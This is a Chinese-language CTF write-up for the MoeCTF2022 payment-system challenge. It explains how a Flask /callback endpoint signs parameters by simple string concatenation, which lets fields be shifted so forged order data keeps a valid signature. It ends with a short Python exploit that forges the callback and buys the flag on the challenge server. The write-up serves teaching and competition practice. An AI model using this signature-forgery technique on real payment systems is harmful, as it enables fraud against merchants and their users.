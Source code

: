 ```yaml
---
date: 2022-10-31
title: MoeCTF2022 支付系统 Writeup
author: Frank
---
```


## 背景

这是一道来历挺有意思的题：虽然碍于某些规定不能细说，但是确实是现实生活中出现的case简化而成的题目。
本来希望做成有多层身份（用户、商户、平台、渠道等），多级目标的题目，但多次简化后发现问题根源单一且难度不大，遂出成了仅有单个身份（用户）以及单个目标（买flag）的MoeCTF的题目。

总的来说是一道考验脑经急转弯的题目，但是对于新生而言，作为一道500分的题目，我对新生的期待至少有以下几点：

* 掌握Python的基础语法
* 掌握Flask框架的基础用法
  * 如果能进一步了解orm的作用以及用法那就再好不过了，但要解出题目其实不需要
* 能在一周时间左右耐心阅读完这段对于编写过一段时间代码的同学并不长的代码
* 能通过代码准确判断出出题人的意图
* 能通过逻辑分析对可能的攻击点进行分层次的排查

## 思路

首先阅读代码，这是基本功。我们看到 `/pay` 接口可以为我们充值，并且了解到用户是通过 `session` 进行标识的。  
通过Flask框架的基础学习，不难了解到Flask的session在无法取得secret_key的情况下是无法篡改的，所以排除掉直接修改session中的余额这一思路。  
发现 `/callback` 接口可以接受参数而***改变一笔订单的状态***，并利用 `sign` 参数对其它参数的值进行校验。仔细观察校验方式，可以发现校验的信息为简单的字符串拼接。  
此时需要动脑：要绕过这一个校验无非有两种可能：

* 伪造任意数据，并生成签名 `sign`。要达成这一目标我们需要 `secret_key`，但由于 `secret_key` 为随机生成，且没有泄露途径，这一方案可以排除
* 伪造特定的数据，使伪造的数据与通过 `/pay` 接口产生的数据签名相同。

不难发现我们应当采用第二种方式：

在没有 `secret_key` 的情况下，思考如何构造两组签名相同的数据，在签名函数安全的前提下，不如思考如何构造两组数据，使得其在签名前的**数据本身**相同

对于字符串拼接，我们可以发现：

`aa+b == a+ab`

脑经急转弯结束。

## exploit

```python
from requests import session
import re
ses = session()
loc = ses.get('http://fake-pay.moectf.challenge.ctf.show/pay', params={'amount': 2000, 'desc': ''}, allow_redirects=False).headers['location']
detail = ses.get(f'http://fake-pay.moectf.challenge.ctf.show{loc}').text
h = re.findall(r'[0-9a-f]{64}', detail)[0]
u = re.findall(r'[0-9a-f]{8}-[0-9a-f\-]{27}', detail)[0]
print(ses.post('http://fake-pay.moectf.challenge.ctf.show/callback', data={
    'id': loc.split('=')[1],
    'user': u, 'hash': h,
    'amount': 200, 'status': 0,
    'desc': '2',
}).text)
print(ses.get('http://fake-pay.moectf.challenge.ctf.show/flag').text)
```
